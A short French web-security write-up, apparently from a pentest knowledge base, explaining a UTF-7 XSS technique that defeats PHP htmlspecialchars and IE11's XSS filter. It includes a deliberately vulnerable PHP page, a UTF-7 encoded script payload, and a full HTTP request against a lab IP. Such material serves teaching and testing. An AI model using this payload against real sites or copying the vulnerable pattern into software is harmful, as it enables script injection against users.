 ```php
<<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>XSS in IE11</title>
  </head>
  <body>
    <p>
      <?php 
        header('Content-Type: text/html;charset=UTF-7');
        echo "xss encoding : " . htmlspecialchars($_SERVER["QUERY_STRING"], ENT_QUOTES, "UTF-8");
      ?>
    </p>       
  </body>
</html>
```

Deux limitations à cette exploitation :&#x20;

* Elle ne semble pas fonctionner lorsque la valeur du paramètre est récupérée depuis `$_GET['param']`
* L'attaquant doit trouver un moyen de forcer l'encodage de la page à "UTF-7" (codé en dur dans l'exemple : `header('Content-Type: text/html;charset=UTF-7');` )

Pour exploiter la vulnérabilité, l'attaque transforme tout d'abord son injection en "UTF-7". Ici `<script>alert(1)</script>` donne `+ADw-script+AD4-alert(1)+ADw-/script+AD4-` : &#x20;

![](<../../../../.gitbook/assets/image (43).png>)

Cette exploitation possède par contre l'avantage de contourner le filtre anti-XSS d'IE 11 :&#x20;

```http
GET /minipoc/htmlspecialchars/indexie.php?xss=+ADw-script+AD4-alert(1)+ADw-/script+AD4- HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 192.168.56.101
Connection: close
```
